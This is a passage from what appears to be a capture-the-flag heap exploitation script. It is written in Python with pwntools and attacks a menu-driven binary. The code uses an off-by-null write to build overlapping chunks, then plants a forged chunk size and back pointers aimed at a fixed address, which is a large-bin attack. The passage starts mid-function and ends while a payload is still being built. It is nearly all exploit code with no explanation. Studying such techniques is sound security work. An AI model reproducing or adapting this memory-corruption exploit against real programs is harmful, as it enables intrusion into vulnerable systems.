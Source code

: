  ```python
  p.sendlineafter('Choice: ', '1')
  p.sendlineafter('?\n', str(size))
 
 def edit(index, content):
  p.sendlineafter('Choice: ', '2')
  p.sendlineafter('?\n', str(index))
  p.sendafter('\n', content)
 
 def free(index):
  p.sendlineafter('Choice: ', '3')
  p.sendlineafter('?\n', str(index))
 
 gdb.attach(p)
 add(0x18)  #0
 add(0x508) #1
 add(0x18)  #2
 
 add(0x18)  #3
 add(0x508) #4
 add(0x18)  #5
 add(0x18)  #6
 
 edit(1,'a'*0x4f0+p64(0x500)) #prev_size
 edit(4,'a'*0x4f0+p64(0x500)) #prev_size
 
 free(1)
 edit(0,'a'*0x18) #off by null
 
 add(0x18)  #1
 add(0x4d8) #7 
 
 free(1)
 free(2)    #overlap
 
 
 #recover
 add(0x30)  #1
 add(0x4e0) #2
 
 free(4)
 edit(3,'a'*0x18) #off by null
 add(0x18)        #4
 add(0x4d8)       #8 
 free(4)
 free(5)          #overlap
 add(0x40)        #4 
 edit(8, 'aaaa')
 # pause()
 
 free(2)     #unsortedbin-> chunk2 -> chunk5(0x4e0)    which size is largebin FIFO
 add(0x4e8)  #put chunk5(0x4e0) to largebin
 free(2)     #put chunk2 to unsortedbin
 
 content_addr = 0xabcd0100
 fake_chunk = content_addr - 0x20
 
 payload = p64(0)*2 + p64(0) + p64(0x4f1) # size
 payload += p64(0) + p64(fake_chunk)      # bk
 edit(7, payload)
 
 payload2 = p64(0)*4 + p64(0) + p64(0x4e1)  #size
 payload2 += p64(0) + p64(fake_chunk+8)   
 payload2 += p64(0) + p64(fake_chunk-0x18-5)#mmap
 ```